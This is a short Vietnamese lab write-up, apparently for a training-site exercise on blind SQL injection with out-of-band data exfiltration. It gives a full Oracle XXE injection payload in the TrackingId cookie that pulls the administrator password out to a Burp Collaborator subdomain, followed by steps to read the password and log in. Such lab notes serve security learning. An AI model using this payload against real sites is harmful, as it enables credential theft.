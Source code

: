 # WEB

*Lab: Blind SQL injection with out-of-band data exfiltration*

## Tóm tắt

Thực hiện 1 truy vấn SQL bất đồng bộ sử dụng cookie TrackingId. Điều này không ảnh hưởng đến ứng dụng (blind) nhưng tương tác tới 1 server do attacker kiểm soát.
## Khai thác

1. Tiến hành mở trang web, bắt lại request chứa cookie TrackingId.

![alt text](images/image.png)

2. Sửa trường TrackingId thành 1 payload có thể lấy thông tin của tài khoản admin.
- Mục tiêu để server tương tác với máy chủ Collabrator của burpsuite.
- Sử dụng payload như trong ảnh. "TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--" 
- Lưu ý, thay chuỗi BURP-COLLABORATOR-SUBDOMAIN thành chuỗi lấy từ burpsuite ở bước dưới.
![alt text](images/image-1.png)
3. Lấy subdomain từ tab Collaborator trên burpsuite.
- Ấn vào copy to clipboard để copy subdomain
![alt text](images/image-2.png)
4. Dán thay subdomain vào TrackingId. Gửi request.
- Theo dõi tab Collaborator
- Khi có tương tác http, ấn vào để xem mật khẩu. Mật khẩu là phần nằm trước subdomain trong phần host(dưới ảnh)

![alt text](images/image-3.png) 
5. Dùng mật khẩu đăng nhập vào trang để hoàn thành bài lab.
![alt text](images/image-4.png)

